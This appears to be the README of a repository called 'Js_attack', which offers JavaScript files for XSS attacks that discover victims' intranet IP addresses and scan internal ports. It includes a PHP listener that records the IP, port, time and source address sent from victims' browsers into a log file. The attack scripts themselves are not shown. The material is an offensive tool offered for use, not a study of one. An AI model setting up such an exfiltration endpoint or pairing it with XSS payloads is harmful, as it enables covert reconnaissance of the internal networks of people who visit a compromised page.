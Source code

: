 Js_attack - some .jS with xss to attack
===================

Usage example
------------------

Get-Intranet-ip.js & Scan-Intranet-port.js: 
you can make a server to accept ip and port:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips


